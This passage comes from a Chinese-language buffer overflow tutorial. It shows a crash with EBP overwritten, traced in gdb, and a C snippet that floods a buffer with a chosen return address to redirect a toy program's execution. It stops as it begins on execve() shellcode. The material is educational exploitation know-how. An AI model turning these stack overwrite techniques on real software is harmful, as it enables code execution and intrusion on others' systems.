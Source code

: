 **3a 程序溢出**

```
# ./blah
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx<- user input
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
# ./blah
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx <- user input
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
Segmentation fault (core dumped)
# gdb blah core
(gdb) info registers
     eax:       0x24          36
     ecx:  0x804852f   134513967
     edx:        0x1           1
     ebx:   0x11a3c8     1156040
     esp: 0xbffffdb8 -1073742408
     ebp:   0x787878     7895160
```

‍‍EBP位于0×787878，这就意味我们已经写入了超出缓冲区输入可以控制的范围。0×78是十六进制的x。该过程有32个字节的最大的缓冲器。我们已经在内存中写入了比用户输入更多的数据，因此重写EBP，返回值的地址是‘xxxx’，这个过程会尝试在地址0×787878处重复执行，这就会导致段的错误。‍‍

**3b 改变返回值地址**

‍‍让我们尝试利用这个程序来返回lame()来代替它的返回值，我们要改变返回值的地址从0x80484d0到0x80484cb，在内存中，我们有32字节的缓冲区空间，4个字节保存EBP，4个字节的RET。下面是一个很简单的程序，把4个字节的返回地址变成一个1个字节字符缓冲区：‍‍

```


main()
{
int i=0; char buf[44];
for (i=0;i<=40;i+=4)
*(long *) &buf[i] = 0x80484cb;
puts(buf);
}
# ret
ËËËËËËËËËËË,
 
# (ret;cat)|./blah
test <- user input
ËËËËËËËËËËË,test
test <- user input
test


```

‍‍我们在这里使用这个程序运行了两次这个函数。如果有溢出存在，函数的返回值地址是可以变的，从而改变程序的执行线程。‍‍

**4 Shellcode**

‍‍为了简单，Shellcode使用简单的汇编指令，我们写在栈上，然后更改返回地址，使它返回到栈内。使用这个方法，我们可以把代码插入到一个脆弱的进程中，然后在栈中正确的执行它。所以，让我们通过插入的汇编代码来运行一个Shell。一个常见的调用命令是execve()，它可以加载和运行任意的二进制代码，终止当前执行的进程。手册中提供我们的用法为：‍‍
